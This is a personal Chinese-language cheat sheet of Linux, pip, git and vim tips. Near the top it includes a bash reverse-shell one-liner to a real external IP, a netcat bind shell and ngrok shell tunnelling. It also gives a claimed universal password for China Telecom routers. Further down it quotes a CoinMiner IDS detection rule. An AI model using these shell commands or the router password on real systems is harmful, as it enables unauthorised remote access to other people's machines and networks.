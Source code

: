### kali重新启动网卡

/etc/init.d/networking restart





bash -i >/dev/tcp/119.28.130.53/2333 0>&1 2>&1



正向反弹   靶机 ：nc -lvp 2333 -e /bin/bash   
  
攻击机： # nc 192.168.255.147（靶机ip）  2333



设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口


### pip检查哪些包需要更新

	# pip list --outdated

### pip升级包

	# pip install --upgrade 要升级的包名


echo  中转义  用 ^ 相当于 正则中\

echo  ^%  输入  %

### apt 安装指定版本软件解决依赖问题

apt-get install zlib1g=1:1.2.3.4.dfsg-3ubuntu4



### 在当前目录下递归遍历各子文件夹的文件寻找含有 abc 字符串的文件信息

grep -r abc .


### 文件相关

查看文件/文件夹大小

du -sh *

或

ls -l -h

或

ls -lht

### kali linux 调整 sda1 大小 

用GPart 


linux pwd命令 查看路径，查看当期路径在系统路径位置

### CentOS7用yum安装软件提示 cannot find a valid baseurl for repobase7x86_64

可能是未配置dns:

	cd /etc/sysconfig/network-scripts

	vi ifcfg-enp4s0   

(不同的机器网卡名可能会不一样)

设置：

	DNS1=114.114.114.114

执行：

	yum update

### windows环境下python3安装Crypto

https://blog.csdn.net/five3/article/details/86160683

https://forum.90sec.org/   90sec 论坛


nE7jA%5m 就是这个密码 只要是电信设备路由器都可以试试，百试百灵



https://www.acgbk2.com/  acg宝库永久 https://acgbk.vip/



https://zxso.net/tool/shorturl.php   免注册短网址生成



http://ip.bczs.net/country/CN   全球ip 数据库



https://www.0xnull.org/   0xnull,  技术网站

### 反编译 linux 里的 ELF 文件

objdump -S a > a.S

### Github push代码到仓库，卡在WriteObjects不动

一般是有大文件

git config --global http.postBuffer 524288000



# 删除空文件夹

 	find -type d -empty|xargs -n 1 rm -rf

# 当前文件夹名字输出到文件

	ls > ../cve.txt


# vim 分割替换文本

	alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"TROJAN CoinMiner Known Malicious Stratum Authline (2017-09-20 9)"; flow:established,to_server; content:"|22|id|22 3A|"; content:"|22|method|22 3a|"; pcre:"/(?:\x22mining\.authorize\x22\x2c|\x22login\x22\x2c)/R"; content:"|22|params|22|"; within:50; pcre:"/(?:\x22login\x22\x3a\x22dashcain@protonmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22moringott26@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2247k5TbgFezTDNtJomYPgaDdk3dyQrHZvwYcnDSV6SnGCHGDP5UWMVFXFDBg25ekR5uTWjiETwQUukbQmmwDqAZ3A3aF4osR\x22\x2c\x22pass\x22\x3a\x2232\x22|\x22login\x22\x3a\x22alisher2606@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22super\.kapu2015@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22Sanya1995ua@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224BrL51JCc9NGQ71kWhnYoDRffsDZy7m1HUU7MRU4nUMXAHNFBEJhkTZV9HdaL4gfuNBxLPc3BeMkLGaPbF5vWtANQnM2XjL7BeJ3umLDEe+w420\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x2246s3552pauRKEovP5KuYrZLCCrxsVDHoscYbSAYaqhDyVneL7AgEhpeG3ionKZy3cHQA3RWHvVr3g3fbsLrN3T3mHbWPkNg+MoyuFirst\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x224JUdGzvrMFDWrUUwY3toJATSeNwjn54LkCnKBPRzDuhzi5vSepHfUckJNxRL2gjkNrSqtCoRUrEDAgRwsQvVCjZbS46fdUWD3ty8j16LNa\.103-208-220-133\x22\x2c\x22pass\x22\x3a\x22x\x22|\x22login\x22\x3a\x22butcherzz1337@gmail\.com\x22\x2c\x22pass\x22\x3a\x22x\x22)/R"; metadata: former_category MALWARE; reference:url,research.zscaler.com/2013/12/bitcoin-mining-operation-seen-across.html; reference:url,www.btcguild.com/new_protocol.php; reference:url,mining.bitcoin.cz/stratum-mining; reference:md5,b7759d56b5173157705bbb424bf27d71; classtype:trojan-activity; sid:2828019; rev:1; metadata:affected_product Windows_XP_Vista_7_8_10_Server_32_64_Bit, attack_target Client_Endpoint, deployment Perimeter, signature_severity Major, created_at 2017_09_20, malware_family CoinMiner, performance_impact Moderate, updated_at 2017_09_20;)

操作如下：

1. 将要提取的正则前的字符替换为空 ```.*pcre:"/(?```  ,  /g  表示全局

	:%s/.*pcre:"\/(?://g     

2. 将要提取的正则后的字符替换为空 ```)\/R";.*```

	:%s/)\/R";.*//g

3. 将 ```|``` 替换为 ```\r```

	:%s/|/\r/g

# linux 文本取差集

	sort a.txt b.txt b.txt | uniq -u

https://blog.csdn.net/yuanyuan95/article/details/88349289

(回车换行等符号会产生影响，可提前去除)

# 一个文本文件内有重复行，把多余的删掉，另存

linux的uniq是多么的四两拨千斤：

uniq 1.txt result.txt

两个文件：2是1的子集，求交集1-2=？。

cat轻松搞定：

cat 2.txt 1.txt | sort | uniq -u > result.txt

grep也可以，就是得带几个参数，多操了些心：

grep -F -v -f 2.txt 1.txt | sort | uniq > result.txt

2.txt 1.txt的顺序很重要。


# 16进制展示文件内容

linux下用 ```xxd 文件名```

## 去除文件中的空行

	grep -v "^$" a.txt
